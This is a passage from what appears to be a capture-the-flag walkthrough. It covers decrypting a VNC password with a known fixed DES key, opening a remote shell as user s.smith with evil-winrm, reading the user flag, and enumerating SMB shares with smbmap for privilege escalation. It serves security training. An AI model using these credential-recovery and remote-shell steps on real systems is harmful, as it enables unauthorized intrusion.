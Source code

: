 

Looking at the implementation, we can see that all the program does is DES-decrypting the password with a fixed key (same as we did using ruby).

```bash
root@darkness:~# cat vncpwd.c | grep fixedkey
    uint8_t fixedkey[8] = { 23,82,107,6,35,78,88,7 },
    deskey(fixedkey, DE1);
```



## User-shell

Now that we have decrypted the password `sT333ve2` for the user `s.smith`, we can use evil-winrm to get a shell.

```powershell
root@darkness:~# evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents>
```

Now that we have a shell as the user, we can read user.txt.

```powershell
*Evil-WinRM* PS C:\Users\s.smith\Desktop> type user.txt
4cbc8***************************
```



## Privesc

Now that we have a shell as user, let us enumerate the system to find a privilege escalation-vector.

### Enumeration as s.smith

Let us check out smb again with the new set of credentials and see if we now have access to the `Audit$` share.

```bash
root@darkness:~# smbmap -H 10.10.10.182 -u s.smith -p sT333ve2
[+] IP: 10.10.10.182:445        Name: 10.10.10.182                                      
        Disk                    Permissions     Comment
        ----                    -----------     -------
        ADMIN$                  NO ACCESS       Remote Admin
        Audit$                  READ ONLY
        C$                      NO ACCESS       Default share
[...]
```
